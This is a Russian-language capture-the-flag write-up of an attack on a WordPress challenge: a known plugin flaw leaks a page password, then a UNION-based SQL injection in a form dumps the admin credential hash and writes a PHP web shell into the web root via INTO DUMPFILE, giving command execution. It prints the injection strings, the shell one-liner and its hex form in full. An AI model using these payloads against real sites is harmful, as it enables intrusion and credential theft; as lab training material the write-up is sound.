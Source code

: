 # Shadow misconfig writeup

Получаем WP - приложение. Есть пара страниц-постов, защищенных паролями.

WpScan указывает на уязвомость:

![image.png](Shadow%20misconfig%20writeup%20193021737a8980a68bf4f0233419175d/image.png)

Находим PoC:

![image.png](Shadow%20misconfig%20writeup%20193021737a8980a68bf4f0233419175d/image%201.png)

Работает!

![image.png](Shadow%20misconfig%20writeup%20193021737a8980a68bf4f0233419175d/image%202.png)

Декодируем бинарный текст, получаем пароль к одной из страниц.

![image.png](Shadow%20misconfig%20writeup%20193021737a8980a68bf4f0233419175d/image%203.png)

Пробуем ввести пароль и получаем ссылку на новую страницу:

![image.png](Shadow%20misconfig%20writeup%20193021737a8980a68bf4f0233419175d/image%204.png)

Это форма, где можно задать вопрос оракулу.

![image.png](Shadow%20misconfig%20writeup%20193021737a8980a68bf4f0233419175d/image%205.png)

Легко обнаруживаем SQLi уязвимость.

![image.png](Shadow%20misconfig%20writeup%20193021737a8980a68bf4f0233419175d/image%206.png)

Более того, это еще и UNION-based инъекция.

![image.png](Shadow%20misconfig%20writeup%20193021737a8980a68bf4f0233419175d/image%207.png)

Здесь мы воспользуемся мощным трюком — загрузкой веб шелла посредством UNION инъекции.

До этого я также проверил содержимое базы, ничего инетересного не нашел, админский хеш не реверсится.

Интересный момент — при попытке чтения данных из wordpress базы столкнулся с ошибкой “**Illegal Mix of Collation For Operation 'UNION'** ”. Это обходится несложно, всего лишь нужно обернуть SELECT clause (в моем случае еще был GROUP_CONCAT), в обертку `uncompress(compress(…))` . После этого ошибка пропадает

```php
question=' UNION SELECT 1,(SELECT uncompress(compress(GROUP_CONCAT(user_login, user_pass SEPARATOR '/'))) FROM wordpress.wp_users WHERE user_login='admin') #
```

Делаем тестовую атаку — в бурпе прописываем простой пейлоад:

![image.png](Shadow%20misconfig%20writeup%20193021737a8980a68bf4f0233419175d/image%208.png)

И пробуем достучаться к этому файлу по корню сайта.

![image.png](Shadow%20misconfig%20writeup%20193021737a8980a68bf4f0233419175d/image%209.png)

RCE в наших руках. Осталось развить атаку. Попробуем написать пейлоад поинтереснее.

На будущее — вот неплохой вариант короткого однострочника-шелла на php:

```php
<!-- Simple PHP Backdoor By DK (One-Liner Version) -->
<!-- Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd -->
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

```php
0x3c212d2d2053696d706c6520504850204261636b646f6f7220427920444b20284f6e652d4c696e65722056657273696f6e29202d2d3e0a3c212d2d2055736167653a20687474703a2f2f7461726765742e636f6d2f73696d706c652d6261636b646f6f722e7068703f636d643d6361742b2f6574632f706173737764202d2d3e0a3c3f70687020696628697373657428245f524551554553545b27636d64275d29297b206563686f20223c7072653e223b2024636d64203d2028245f524551554553545b27636d64275d293b2073797374656d2824636d64293b206563686f20223c2f7072653e223b206469653b207d3f3e
```

Размещаем шелл для эскалации:

```php
question=' UNION SELECT 1,0x3c212d2d2053696d706c6520504850204261636b646f6f7220427920444b20284f6e652d4c696e65722056657273696f6e29202d2d3e0a3c212d2d2055736167653a20687474703a2f2f7461726765742e636f6d2f73696d706c652d6261636b646f6f722e7068703f636d643d6361742b2f6574632f706173737764202d2d3e0a3c3f70687020696628697373657428245f524551554553545b27636d64275d29297b206563686f20223c7072653e223b2024636d64203d2028245f524551554553545b27636d64275d293b2073797374656d2824636d64293b206563686f20223c2f7072653e223b206469653b207d3f3e INTO DUMPFILE '/var/www/html/40845778436153ae58a101027fa63c2d/ev1l.php' #
```

![image.png](Shadow%20misconfig%20writeup%20193021737a8980a68bf4f0233419175d/image%2010.png)

И проверяем, как работает, передаем параметром cmd команду:

![image.png](Shadow%20misconfig%20writeup%20193021737a8980a68bf4f0233419175d/image%2011.png)

Бинго. Осталось найти флаг, с этим без проблем справляемся грепом.

![image.png](Shadow%20misconfig%20writeup%20193021737a8980a68bf4f0233419175d/image%2012.png)

![image.png](Shadow%20misconfig%20writeup%20193021737a8980a68bf4f0233419175d/image%2013.png)

Победа!